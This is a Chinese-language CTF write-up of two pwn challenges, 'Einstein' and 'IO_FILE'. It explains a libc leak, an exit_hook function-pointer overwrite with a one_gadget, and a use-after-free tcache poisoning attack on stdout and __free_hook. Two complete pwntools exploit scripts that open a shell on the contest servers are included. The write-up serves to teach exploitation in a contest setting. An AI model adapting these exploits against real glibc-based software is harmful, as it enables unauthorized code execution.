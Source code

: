 # 安恒杯--WP


 几时归去，作个闲人。对一张琴，一壶酒，一溪云。					——《行香子·述怀》苏轼

<!--more-->

# 安恒杯-WP

这次参加的安恒杯，做了两道pwn题，一个拿了一血，一个拿了二血，两道题的漏洞和利用都不叫简单，逆向代码也不复杂，和朋友也成功的闯入了线下赛，期待和各位师傅们的面基，线下赛加油！[2020anxun题目下载](https://github.com/nopnoping/nopnoping.github.io/tree/master/resource/2020anxun)

## Einstein

题目的逻辑是输入一个json数据，解析json后check它的字段，最后拥有三次任意地址写一个字节的机会。看到这个任意地址写，我想出题人应该借鉴了2020虎符marks man颇多。

仔细分析函数逻辑后发现，check函数不管你输入对，还是输入错都会返回1，并且两个printf函数打印的是同一个堆块，如果第一个堆块被释放后，第二次打印就会泄漏libc。

![image-20201202161509441](C:\Users\10457\AppData\Roaming\Typora\typora-user-images\image-20201202161509441.png)

![image-20201126141212063](https://i.loli.net/2020/11/26/K1CqQ4afgSiLk3v.png)

libc泄露后，接下来的问题就是如何利用任意地址写3个字节来获得Shell。利用思路和虎符marks man题目一样，打exit函数。这里我把这个利用方法详细的探讨一下，知其然要知其所以然。

查看libc源码，可以发现exit函数实际调用的是一个\_\_run\_exit\_handlers函数，\_\_run_exit_handlers函数执行中会跳转到dl_fini函数，dl_fini函数中有一段关键代码。

````c
#ifdef SHARED
  int do_audit = 0;
 again:
#endif
  for (Lmid_t ns = GL(dl_nns) - 1; ns >= 0; --ns)
    {
      /* Protect against concurrent loads and unloads.  */
      __rtld_lock_lock_recursive (GL(dl_load_lock));

      unsigned int nloaded = GL(dl_ns)[ns]._ns_nloaded;
      /* No need to do anything for empty namespaces or those used for
	 auditing DSOs.  */
      if (nloaded == 0
#ifdef SHARED
	  || GL(dl_ns)[ns]._ns_loaded->l_auditing != do_audit
#endif
	  )
	__rtld_lock_unlock_recursive (GL(dl_load_lock));
````

其中最关键的是：

````c
__rtld_lock_lock_recursive (GL(dl_load_lock));
__rtld_lock_unlock_recursive (GL(dl_load_lock));
````

这里我们以__rtld_lock_lock_recursive为例。

查看__rtld_lock_lock_recursive 的定义如下：

````c
#define __rtld_lock_lock_recursive(NAME) \
	GL(dl_rtld_unlock_recursive) (&(NAME).mutex)
````

查看GL的定义

````c
#  define GL(name) _rtld_local._##name
# else
#  define GL(name) _rtld_global._##name
````

这里出现了一个新的结构体\_rtld_local。综上所述调用\_rtld_lock\_lock\_recursive (GL(dl\_load\_lock))，实际就是调用**\_rtld\_local.dl_rtld_unlock_recursive (&(GL(dl\_load\_lock)).mutex)**。

我们在gdb中查看一下\_rtld\_local这个结构究竟是什么东西。（gdb中输入p \_rtld\_local）

![a](https://gitee.com/nopnoping/img/raw/master/img/1.jpg)

![image-20201128195347223](https://i.loli.net/2020/11/28/FHtOQwxuLv4Sd9e.png)

我们可以看到\_rtld\_local这个结构体的dl_rtld_unlock_recursive成员其实就是一个函数指针，其指向了rtld_lock_default_unlock_recursive这个函数，并且由于该函数是libc里面的函数，我们只需要修改其3个字节就可以篡改为我们的onegadget。

Ok，总结一下exit的调用过程：**exit==>dl_fini==>_rtld\_local.dl_rtld_unlock_recursive**

````python
#Author: Nopnoping
from pwn import *

s      = lambda data               :sh.send(data) 
sa      = lambda delim,data         :sh.sendafter(delim, data)
sl      = lambda data               :sh.sendline(data)
sla     = lambda delim,data         :sh.sendlineafter(delim, data)
sea     = lambda delim,data         :sh.sendafter(delim, data)
r      = lambda numb=4096          :sh.recv(numb)
ru      = lambda delims, drop=True  :sh.recvuntil(delims, drop)
info_addr = lambda tag, addr        :sh.info(tag +': {:#x}'.format(addr))
itr     = lambda                    :sh.interactive()

if args['REMOTE']:
	sh=remote("axb.d0g3.cn",20103)
else:
	sh=process("./sfs")

if args['I386']:
	context.arch='i386'
else:
	context.arch='amd64'

if args['DEBUG']:
	context.log_level='debug'

def debug(command=''):
	#context.terminal = ['tmux', 'splitw', '-h']
	gdb.attach(sh,command)


def exp():
	#debug("b*0x7ffff77f4364\nc")
	libc=ELF("./libc-2.23.so")
	json="{\"name\": \"aaaa\",\"passwd\": \"aaa\"}"
	sl(json)
	ru("error!\nlogger:")
	libc_base=u64(ru(" ").replace(" ","\x00").ljust(8,"\x00"))-0x3c4b78
	info_addr("libc_base",libc_base)
	one_gadget=0xf0364+libc_base
	exit_hook=libc_base+0x8f9f48
	info_addr("one_gadget",one_gadget)
	for i in range(3):
		s(p64(exit_hook+i))
		s(chr(one_gadget&0xff))
		one_gadget=one_gadget>>8
	#debug()
	itr()

exp()
````

## IO_FILE

UAF漏洞，程序没有开启PIE和REALO，并且libc是2.27的版本，漏洞很好利用，唯一的一个难点是unsorted bin堆块中记录的libc地址和IO_stdout结构体之间相差太多，暴力解比较困难，这里需要转换一下思路。

由于题目没有开启PIE，因此我们知道got表的地址，而got表中有stdout指针，其记录了IO_stdout结构体的地址，因此我们可以利用UAF，修改堆块fd为stdout got表地址，这样就可以间接获得IO_stdou结构的地址，而无需爆破。

````python
#Author: Nopnoping
from pwn import *

s      = lambda data               :sh.send(data) 
sa      = lambda delim,data         :sh.sendafter(delim, data)
sl      = lambda data               :sh.sendline(data)
sla     = lambda delim,data         :sh.sendlineafter(delim, data)
sea     = lambda delim,data         :sh.sendafter(delim, data)
r      = lambda numb=4096          :sh.recv(numb)
ru      = lambda delims, drop=True  :sh.recvuntil(delims, drop)
info_addr = lambda tag, addr        :sh.info(tag +': {:#x}'.format(addr))
itr     = lambda                    :sh.interactive()

if args['REMOTE']:
	sh=remote("axb.d0g3.cn",20102)
else:
	sh=process("./IO_FILE")

if args['I386']:
	context.arch='i386'
else:
	context.arch='amd64'

if args['DEBUG']:
	context.log_level='debug'

def debug(command=''):
	#context.terminal = ['tmux', 'splitw', '-h']
	gdb.attach(sh,command)

def choice(elect):
	ru('>')
	sl(str(elect).encode())

def add(size,content):
	choice(1)
	ru(':')
	sl(str(size).encode())
	ru(":")
	s(content)

def delete(index):
	choice(2)
	ru(':')
	sl(str(index).encode())

def exp():
	libc=ELF("./libc.so.6")
	add(0x90,"0")
	add(0x80,"1")
	for i in range(4):
		delete(0)
	add(0x90,p64(0x602080))
	add(0x90,"a")
	add(0x90,"\x60")
	add(0x90,p64(0xfbad1800)+p64(0)*3+"\x00")
	ru("\xe3")
	libc_base=u64(("\xe3"+r(5)).ljust(8,"\x00"))-131-libc.symbols["_IO_2_1_stdout_"]
	system=libc_base+libc.symbols["system"]
	free_hook=libc_base+libc.symbols["__free_hook"]
	info_addr("libc_base",libc_base)
	info_addr("system",system)
	info_addr("free_hook",free_hook)
	for i in range(3):
		delete(1)
	add(0x80,p64(free_hook))
	add(0x80,"a")
	add(0x80,p64(system))
	add(0x10,"/bin/sh\x00")
	delete(9)
	itr()

exp()
````

## 参考

[exit_hook劫持](https://blog.csdn.net/qq_43116977/article/details/105485947)

